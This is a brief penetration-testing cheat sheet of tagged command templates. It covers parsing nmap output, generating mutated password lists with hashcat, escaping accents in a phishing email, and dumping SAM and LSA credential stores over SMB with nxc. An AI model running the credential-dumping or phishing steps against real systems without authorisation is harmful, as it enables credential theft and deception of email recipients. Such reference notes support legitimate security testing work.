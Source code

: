 # Useful commands

% UsefulCommands

## hostDiscover - extract IPs
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
cat <nmap-shOut> | grep report | awk '{print $NF}'
```

## hashcat - create list using rules
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hashcat --force <passwordlist> -r <customrule> --stdout | sort -u > mut_password.list
```

## Phishing - accents - acute
#plateform/linux #target/remote #port/23 #protocol/smtp #cat/ATTACK/
```
cat <mail.html> | sed 's/á/\&aacute;/g; s/é/\&eacute;/g; s/í/\&iacute;/g; s/ó/\&oacute;/g; s/ú/\&uacute;/g' > <outMail.html>
```

## Dump sam - nxc
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTCK/
```
nxc smb <target> --local-auth -u <user> -p <pass> --sam   
```

## Dump lsa - nxc
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTCK/
```
nxc smb <target> --local-auth -u <user> -p <pass> --lsa
```

